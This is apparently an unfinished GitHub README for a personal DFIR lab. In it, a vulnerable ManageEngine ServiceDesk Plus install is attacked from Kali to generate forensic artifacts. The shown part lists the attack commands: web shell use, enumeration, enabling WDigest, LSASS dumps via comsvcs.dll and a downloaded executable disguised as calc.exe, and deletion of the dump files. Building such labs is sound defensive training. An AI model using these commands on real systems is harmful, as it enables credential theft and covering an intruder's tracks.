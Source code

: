 # Building My First DFIR Lab

## Lab Schema

![](LabSchema.png)


## Environment Setup
- Victim Machine: Windows 10 has:
    -  Vulnerable ManageEngine ServiceDesk Plus build 11303 found on the [ManageEngine Archives](https://archives.manageengine.com/service-desk/11303/)
    -  Sysmon for Windows Logging
    -  Wireshark
- Attacker Machine: Kali Linux
- Server: Windows 10
## Planning
- We will be dividing our lab to multiple parts
    - Part 1: Initial Access & Credentials Dumping
    - 

## Let's Go
### - Part 1:

#### a. Applying The Exploit:
![image](https://github.com/user-attachments/assets/d39fde33-273d-403c-9195-8dac52d64db1)

![image](https://github.com/user-attachments/assets/e7563550-22d8-4a1b-b8eb-b9b3761d9678)

#### b. Visiting wbsh.jsp

![image](https://github.com/user-attachments/assets/bb3eb98c-0af0-4dd2-ab0b-e478fed02f31)

#### c. Enum
  1. `whoami`
  2. `ipconfig /all`
  3. `systeminfo`
  4. `arp -a`
  5. `tasklist`
lsass.exe                      652 Services                   0     16,848 K
  
  6. `reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential`
#### e. `powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'`
#### f. `C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 652 C:\Windows\Temp\logctl.zip full`
#### g. Download C:\Windows\Temp\logctl.zip
#### h. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')`
#### k. `C:\windows\temp\calc.exe -accepteula -ma 652 C:\Windows\Temp\logct2.dmp`
#### l. Delete both of them `Remove-Item -Path "C:\Windows\Temp\logct2.dmp", "C:\Windows\Temp\logctl.zip"`
  
